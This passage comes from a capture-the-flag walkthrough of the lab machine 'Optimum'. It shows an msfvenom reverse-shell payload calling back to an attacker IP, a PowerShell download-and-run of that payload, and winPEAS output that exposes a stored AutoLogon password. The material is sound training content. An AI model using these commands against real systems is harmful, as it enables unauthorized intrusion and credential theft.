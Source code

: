 - but as we are in PowerShell, which is a bit uncomfortable, we need to switch to cmd shell.
- for this we can make a msfvenom payload and download it on target and execute it.
- To create exe payload for rev shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.7 LPORT=9001 -f exe > shell.exe
```

- run following command on target to download the file using PowerShell.

```
iwr -Uri http://10.10.16.7/shell.exe -OutFile C:\Users\kostas\Desktop\shell.exe
```

- now to execute it do: (remember to start a new listener)

```
.\shell.exe
```

- got a new cmd shell as user kostas.
- here we cloud have also used metasploit's `windows/http/rejetto_hfs_exec`.

## Post Exploitation

### Enumeration - winPEAS

I started with [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) to look for escalation paths. I cloned a copy of the repo to my host, started an SMB server in the path with the Windows exe with `sudo smbserver.py share . -smb2support`, and copied it to Optimum:

```
PS C:\programdata> copy \\10.10.14.10\share\winPEAS.exe . 
```

Now I’ll run it with `.\winPEAS.exe`. Scanning through the output, there were a few interesting things.

The box is Windows Server 2012 R2, and 64-bit:

```
    Hostname: optimum                               
    ProductName: Windows Server 2012 R2 Standard
    EditionID: ServerStandard                       
    ReleaseId:                                      
    BuildBranch:                                    
    CurrentMajorVersionNumber:                      
    CurrentVersion: 6.3                             
    Architecture: AMD64
```

There were creds for kostas:

```
  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found!!
    DefaultUserName               :  kostas
    DefaultPassword               :  kdeEjDowkS*    
```
